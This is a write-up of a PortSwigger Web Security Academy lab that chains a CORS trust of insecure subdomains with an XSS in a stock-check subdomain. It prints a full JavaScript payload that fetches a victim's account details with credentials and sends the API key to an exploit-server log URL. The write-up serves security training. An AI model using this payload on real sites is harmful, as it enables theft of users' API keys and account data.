

# Write-up: CORS vulnerability with trusted insecure protocols

Lab-Link: <https://portswigger.net/web-security/cors/lab-breaking-https-attack>  
Difficulty: PRACTITIONER


## Lab description


### Goals

- Create a malicious JS code:
    - which can retreive the administrator's API key
    - and sends it to exploit server

## Steps

Firstly, login into the website using given credentials `wiener:peter` and intercept the request while logging.


We can see the request for url `/accountDetails` whose respone contains the API key.

According to the lab description, application trusts subdomains. So, if we send request with origin as `Origin: https://evil.0a83009e04e20f0680f76cc8009300da.web-security-academy.net`, we get response with `Access-Control-Allow-Origin: https://evil.0a83009e04e20f0680f76cc8009300da.web-security-academy.net`


But, now we need to find a vulnerability in a subdomain website to exploit this vulnerability. After further enumeration if we find XSS vulnerability in "Check Stock" request.


Now, we need to write a javascript code which uses above XSS vulnerability and which will:
1. call the `/accountDetails` page
2. fetches the API key
3. issues a request to the exploit server containing the value

```js
<script>
    document.location="http://stock.0a8900360434726a80f9fec2008a00fb.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8900360434726a80f9fec2008a00fb.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ada00490433726a80d4fda701080095.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```


Now, we test this exploit by clicking on "View Exploit" and checking logs we confirm that we can see wiener's apiKey.


So, now we deliver this exploit to the victim. After checking the "Access log" from exploit server we can see the administrator's API Key


We can now submit this API key of administrator.

Hence, lab is solved.


